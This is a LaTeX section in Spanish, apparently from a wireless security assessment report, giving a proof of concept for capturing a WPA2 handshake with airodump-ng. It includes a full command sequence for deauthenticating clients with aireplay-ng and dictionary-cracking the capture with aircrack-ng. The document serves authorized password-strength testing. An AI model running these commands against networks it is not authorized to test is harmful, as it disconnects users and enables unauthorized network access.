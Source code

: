 \documentclass[a4paper, 11pt]{article}
\begin{document}
\par\vspace{0.5cm}

\subsubsection*{Prueba de concepto}

Esta técnica utiliza \textbf{Airodump-ng} para capturar tráfico de redes WiFi y realizar ataques de fuerza bruta sobre los handshakes capturados. El procedimiento comienza configurando la antena en modo monitor, seguido del escaneo de redes inalámbricas disponibles para seleccionar la red objetivo. Se debe registrar el BSSID y el canal específico para proceder a capturar el handshake mediante técnicas de desautenticación, que desconectan momentáneamente a los clientes obligándolos a reconectarse y generando el handshake.
\par\vspace{0.5cm}

Este handshake posteriormente será explotado mediante fuerza bruta para evaluar la robustez de la contraseña.

\par\vspace{0.5cm}

\begin{lstlisting}[language=bash, style=terminalstyle, caption=Captura WPA2 con Aircrack-ng]
    # Configuración de la antena en modo monitor
$ sudo airmon-ng start wlan0
    # Escaneo de redes WiFi disponibles
$ sudo airodump-ng wlan0mon
    # Selección de la red objetivo y captura del handshake
$ sudo airodump-ng --bssid BSSID --channel CHANNEL -w capture wlan0mon
    # Desautenticación de clientes para capturar el handshake en paralelo con airodump-ng
$ sudo aireplay-ng -0 9 -a BSSID -c CLIENT_MAC wlan0mon
    # Análisis del handshake capturado
$ sudo aircrack-ng -w /path/to/wordlist.txt capture-01.cap
\end{lstlisting}



\subsubsection*{Resultados esperados}

Se espera obtener los siguientes resultados clave tras la ejecución de las herramientas de análisis de redes inalámbricas:

\begin{itemize}
    \item \textbf{Inventario detallado de redes detectadas} (visibles y ocultas), incluyendo información como el \textit{SSID}, canal, \textit{BSSID}, tipo de cifrado y potencia de señal.
    
    \item \textbf{Captura del handshake WPA/WPA2}, que servirá para evaluar posteriormente la robustez de la contraseña mediante técnicas de fuerza bruta o diccionario, y así estimar la complejidad real de explotación.
\end{itemize}
\end{document}
